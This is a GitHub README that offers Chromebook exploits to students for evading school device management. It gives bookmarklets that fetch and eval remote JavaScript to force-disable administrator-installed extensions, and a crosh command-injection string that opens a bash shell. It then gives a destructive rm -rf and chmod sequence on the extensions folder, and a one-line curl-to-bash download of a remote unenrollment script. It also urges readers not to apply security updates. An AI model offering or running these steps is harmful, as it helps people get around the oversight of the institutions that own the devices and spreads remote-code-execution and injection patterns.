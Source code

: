 # ext remover

## ATTENTION ALL SYS ADMINS!!! 

Hello, I am Echo and I created this repo in order to give exploits for the masses and to prove one thing, chromebooks are literal trash, and a poor excuse for a computer. They are full of exploits, you might think you blocked/patched them all but then 3 more pop up. It is a endless game of wack-a-mole. Treat your students to a windows computer, they will thank you. And don't you dare start to think "My school district does not have that kind of money", it most likely does! How much are you paying the blocker companies? Think about that.

## Back to your scheduled programming

![image](https://user-images.githubusercontent.com/58097612/191354621-bf7ff072-b9d7-46b5-994a-4d2adbf0e4f3.png)

Bookmarklet exploit that can force-disable any extension installed on Google Chrome. Also known as LTBEEF. And for some reason I put a unenroll exploit aswell yippee

**DO NOT UPDATE YOUR CHROMEBOOK! This exploit has been patched in versions 106 and above, so do not update!** If you version is above 106, [try this method](https://github.com/3kh0/ext-remover#v106-and-above)

If you need any help, please go here: https://github.com/3kh0/ext-remover/discussions

## Instructions

Here are the instructions to using this exploit! There are two ways, using the GUI and using the ids, the GUI method is better.

### Ingot (GUI)

Credit to Nebelung for this, [link to the github](https://github.com/FogNetwork/Ingot)

For easy setup go the the website at https://fognetwork.github.io/Ingot

1. Show your bookmarks bar with `ctrl + shift + b`
2. Right click on the bar and choose `Add Page`
3. Set the name to `Ingot` and the URL to the code below or [here](https://github.com/FogNetwork/Ingot/blob/main/bookmarklet.js)

```js
javascript:(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwork/Ingot/ingot.min.js';document.body.appendChild(a);}())
```
**If this helped please give me a star!**

![image](https://user-images.githubusercontent.com/58097612/193318485-5267cd59-fb65-45a5-ad28-7f068bbce974.png)

### Using the GUI

Credit to CompactCow#4717 for the amazing UI!

1. Right click on the bar and choose `Add Page`
1. Set the name to `GUI` and the URL to the code below or [here](https://github.com/3kh0/ext-remover/blob/main/gui.js)
```js
javascript:fetch(`https://raw.githubusercontent.com/3kh0/ext-remover/main/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});
```
3. Visit https://chrome.google.com/webstorex. (This is a 404 page, and that is ok.)
4. Click the bookmark (Make sure you are on the page above!)
5. Use the menu to toggle your extensions!

**If this helped please give me a star!**

![image](https://user-images.githubusercontent.com/58097612/190276894-fc492c5c-b0ce-4943-ae56-603f75634618.png)

### Using IDs

#### Disabling 

1. Visit chrome://extensions and on the extension you want to disable click on Details
2. Copy the text in the URL after the `?id=`
> For example if you have this URL: `chrome://extensions/?id=echoontop` you would only copy `echoontop`
3.  Go to the file [`bookmark.js`](https://github.com/3kh0/ext-remover/blob/main/bookmark.js) and copy everything and create a new bookmark and use the code you copied as the Page URL
4. Visit https://chrome.google.com/webstorex. (This is a 404 page, and that is ok.)
5. Click the bookmark (Make sure you are on the page above!)
6.  Put the ID you copied into the text box.

You're done! The extension should now be disabled.

**If this helped please give me a star!**

#### Enabling

1. Visit chrome://extensions and on the extension you want to enable click on Details
2. Click View in Chrome Web Store
3. You will see a banner at the top of the page that says This item has been disabled in Chrome. Enable this item
4. Click on Enable this item

You're done! The extension should now be enabled.

**If this helped please give me a star!**

Credit bypassi for finding and making this exploit!

## How does it work
Well, it's pretty basic. It finds extensions and displays them on this page with some toggle switches.

![image](https://yeeteeyt.github.io/exploitbranch.png)

then, it detects when the toggle switch is toggled, and for what extension, then compiles a message to chrome that says "hey, turn this off for me". Chrome, mistaking this for the webstore complies.

![image](https://yeeteeyt.github.io/exploitgrid.png)

## v106 and above

This exploit details another way to permanently delete extensions. Once done, you can update or restart your chromebook and the extensions will stay gone until you powerwash.

You need a usb for downgrading, and rudimentary knowledge of bash is recommended

STEPS:
1. Downgrade to any version below 101. Instructions are in [Chrome100.dev](https://chrome100.dev).
2. Hit `ctrl+alt+t` to open a crosh window. If it’s blocked by extensions, use LTBEEF. If it’s policy blocked (“The person who set up this computer has chosen to block this site”) you can try downgrading to a version below 90, where crosh had a different URL.
3. Type in `set_cellular_ppp \';bash;exit;\'` and hit enter. 
4. You now have access to a bash shell, logged in as chronos. More information about the permissions of this shell is at the bottom.
5. Type `rm -rf ~/Extensions/*`. **THIS WILL BREAK EVERY EXTENSION ON YOUR CHROMEBOOK.** If there are extensions you want to keep, they can be selectively removed by ID using `rm -rf ~/Extensions/InsertIdHere`
6. Run `chmod 000 ~/Extensions`. This marks the extension folder as read only, stopping it from updating in the future or any new extensions from being installed.
7. You can now restart chrome, allowing it to update to the latest version. Once rebooted onto the latest version, all removed extensions will have the default icon and won’t function at all.

**Things you can’t do**
1. Run sudo or su into root. There might be ways to privilege escalate to root using disclosed chromium bug reports, but at the moment I have not gotten any of them to work on managed chromebooks
2. Enable dev mode or use dev mode things
3. Write to certain protected folders
4. Install packages
5. Install your own extensions. There is no way that known of (right now) to do that, so don’t ask. Please suggest any ideas.
6. Modify an existing extension. Extensions are checksummed before running, so any modification will result in chrome thinking the extension is “corrupted” and trying to redownload it, failing if the directory is marked readonly

If anyone knows some fun commands for the bash shell to break things even further, let me know!

Thanks to CoolElectronics for finding this amazing trick, trent:gra.im and justinchrm for helping with some parts, and the discoverer of the original bash shell exploit found here https://bugs.chromium.org/p/chromium/issues/detail?id=1329945

### Full unenrollment

**Note: This only works on version 101!**

Run the following commands in crosh:
```bash
set_cellular_ppp \';bash;exit;\'
bash <(curl https://coolelectronics.me/unenroll101.sh)
```

There are still so many more fun exploits, please [join the discord](https://discord.gg/unblock)
